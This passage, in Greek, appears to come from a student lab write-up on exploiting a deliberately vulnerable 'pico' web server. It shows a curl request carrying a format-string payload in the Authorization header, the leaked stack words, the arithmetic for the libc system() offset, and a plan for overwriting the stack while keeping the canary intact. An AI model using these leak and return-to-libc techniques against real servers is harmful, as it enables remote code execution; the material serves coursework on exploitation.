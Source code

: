 ```
Γνωρίζοντας πλέον πως είναι η στοίβα όταν πάει να επιστρέψει η post_param ξέραμε ότι το return address είναι η τελευταία λέξη που εκτυπώνεται απο την εντολή x/20xw $esp. Τα επόμενα δυο words πρέπει να είναι τα: 
  * 0xAAAAAAAA (padding) και 
  * η διεύθυνση του 1ου byte του της συμβολοσειράς που θέλουμε να είναι το argument της system.


### Υπολογισμός offsets & διαμόρφωση στοίβας
Αρχικά υπολογίσαμε το offset στο τοπικό μας μηχάνημα με τον εξής τρόπο (προσοχή στον υπολογισμό του offset δεν πρέπει να χρησιμοποιείται gdb γιατί δεν γίνονται randomize οι διευθύνσεις): 

1) Προσθέσαμε στην main τον παρακάτω κώδικα ο οποίος μας εκτυπώνει την διέυθυνση της system. <br>
```
  int (*ptr_to_main)() = system;
  for (i=0; i<sizeof ptr_to_main; i++)
      printf("%.2x", ((unsigned char *)&ptr_to_main)[i]);
  putchar('\n');
```
(Προσοχή το output της παραπάνω εκτύπωσης θέλει convert big to little endian) 

2) Παρατηρήσαμε (στο τοπικό μας μηχάνημα) πως από τη vulnerable printf η 28η τιμή (όταν δίνουμε input **"%08x"** * 31) είναι κοντά στη συνάρτηση system και η διαφορά τους είναι σταθερή. Έτσι βρήκαμε το offset για την system, δηλαδή το τρόπο που θα βρίσκουμε τη συνάρτηση system γνωρίζοντας την τιμή του 28ου word. Η συγκεκριμένη επίθεση δεν δούλεψε, οπότε καταλάβαμε ότι τα offset στον πραγματικό pico-server θα είναι διαφορετικά. Στη συνέχεια στήσαμε τον pico server στο linux02 (εκεί έγινε compile ο πραγματικός pico-server) και με τον ίδιο τρόπο βρήκαμε το offset που θέλαμε:

```
linux02:/home/users/sdi1700040/security/pico-master>./server
System (needs reverse big to little endian): e072a8f7
Server started http://127.0.0.1:32465

linux02:/home/users/sdi1700040/security/pico-master>curl -d "3" -v 'http://127.0.0.1:32465/ultimate.html' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'Content-Length: 0' -H 'Upgrade-Insecure-Requests: 1' -H 'Authorization: Basic JTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eCAlMDh4ICUwOHggJTA4eAo='
<a lot http info
< HTTP/1.1 401 Unauthorized
< WWW-Authenticate: Basic realm="Invalid user: 57d13160 0000009b 565e7526 00000000 00000000 57d1388a 565ea180 00000000 00000000 57d13160 0000009b 00000000 00000001 57d13160 00000000 565e8585 0000009b 00000000 00000000 00000000 00000000 00000000 c5397000 00000000 00000000 f7ac1deb c5397000 f7c22d80 565e9f08 ffd11b38 565e70f1
< "
* no chunk, no close, no size. Assume close to signal end
< 
* Closing connection 0
linux02:/home/users/sdi1700040/security/pico-master>
```
<br>

'Ετσι κάνοντας την πράξη **0xf7c22d80-0xf7a872e0 = 0x19BAA0 = 1686176** βρήκαμε το πραγματικό offset για την system.

 Στόχος μας λοιπόν ήταν αφού εκτελεστεί η εντολή  ```strcpy(post_data, payload);```, η μνήμη που φαίνεται παραπάνω (βλ ερώτημα 3) να αντικατασταθεί με:
  * 13 "τυχαία" words
  * Διεύθυνση του buffer (&post_data) να παραμείνει ίδια
  * 1 "τυχαίο" word
  * Canary να παραμείνει ίδιο
  * Το ακριβώς επόμενο word να παραμείνει ίδιο
  * 1 "τυχαίο" word
```